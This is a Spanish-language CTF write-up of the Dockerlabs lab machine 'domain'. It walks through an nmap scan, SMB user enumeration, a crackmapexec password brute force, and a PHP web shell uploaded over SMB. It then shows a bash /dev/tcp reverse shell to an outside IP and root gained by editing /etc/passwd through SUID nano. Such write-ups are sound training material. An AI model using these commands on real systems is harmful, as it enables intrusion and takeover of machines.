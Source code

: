 Máquina domain


Iniciamos ocn la rutina de reconocimiento con nmap:

```
# Nmap 7.94SVN scan initiated Thu Apr 18 20:17:52 2024 as: nmap -p- --open -sSCV --min-rate 5000 -vvv -n -Pn -oN Target 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000050s latency).
Scanned at 2024-04-18 20:17:53 CEST for 17s
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE     REASON         VERSION
80/tcp  open  http        syn-ack ttl 64 Apache httpd 2.4.52 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: \xC2\xBFQu\xC3\xA9 es Samba?
139/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 4.6.2
445/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 4.6.2
MAC Address: 02:42:AC:11:00:02 (Unknown)

Host script results:
| smb2-time: 
|   date: 2024-04-18T18:18:06
|_  start_date: N/A
|_clock-skew: 0s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 21783/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 58970/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 58197/udp): CLEAN (Timeout)
|   Check 4 (port 16713/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
```

Vemos un http,un servicio smb en el puerto 445 y en el 139

Hacemos un reconocimiento de todo, vamos a empezar por el protocolo http que al parecer nos dice que esta corriendo smba, he probado a fuzzeartanto directorios como subdominios y nada, vamos a ver 
los otros servicios el 139 y el 445

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/f46dfba4-e12c-411b-87bb-9d68db0ca333)

Al no tener absolutamente nada de nada, vamos a utilizar la herramienta rpcclient:

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/08e4ea79-65b2-4ca9-8fee-011d30ead24a)

encontramos dos usuarios validos james y bob, como no sabemos la contraseña vamos a ver si con crackmapexec podemos ejecutar una fuerza bruta exitosa:

```
crackmapexec smb 172.17.0.2 -u bob -p /usr/share/wordlists/rockyou.txt
```

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/a7cca8c9-cbbd-4f31-b195-6f205c9edca5)

La contraseña nos la ha encontrado, asi que vamos a entrar al smb a ver que hay dentro:

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/06a6d222-12be-406a-bd0a-91dded953db2)

ya podemos enumerar:

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/b288a91f-d4d3-4f3a-8b67-19d08a649930)

Entramos y como podemos ver el html sera el de la página principal, así que si creamos un archivo malicioso y lo metemos en el
smb podemos llamarlo desde la página y entablarnos una reverse shell:

Le voy a meter con el comando put el siguiente archivo llamado cmd.php:

```
<?php
        system($_GET['cmd']);
?>
```

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/7afc7d38-736c-4e20-a385-19415fc3676c)

ya con ejecución remota de comados, pues vamos a entablarnos la reverse shell:

```
bash -c "bash -i >%26 /dev/tcp/192.168.1.37/443 0>%261"
```

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/9bf7ae08-9bfc-490b-b541-e5369379c63c)


le metemos el comando: python3 -c 'import pty;pty.spawn("/bin/bash")' y a por el ruteo,

nos metemos en el usuario bob ocn la misma contraseña -> star, sudo -l no funcion, vamos a comprobar los permisos SUID, encontramos que esta nano:

Entonces con nano lo que se puede hacer es:

```
/usr/bin/nano /etc/passwd
```

Si entramos aqui con el nano y le quitamos la x a el usuario root, pues tan solo ponemos su root y nos convertimos en root.

Esta máquina me a parecido interesante por que hacia tiempo que no utilizaba la herramienta rpcclient y ademas nunca habia hecho
una fuerza bruta con crackmapexec a un protocolo smb.

Dificultado 3/5
Diversión 2/5











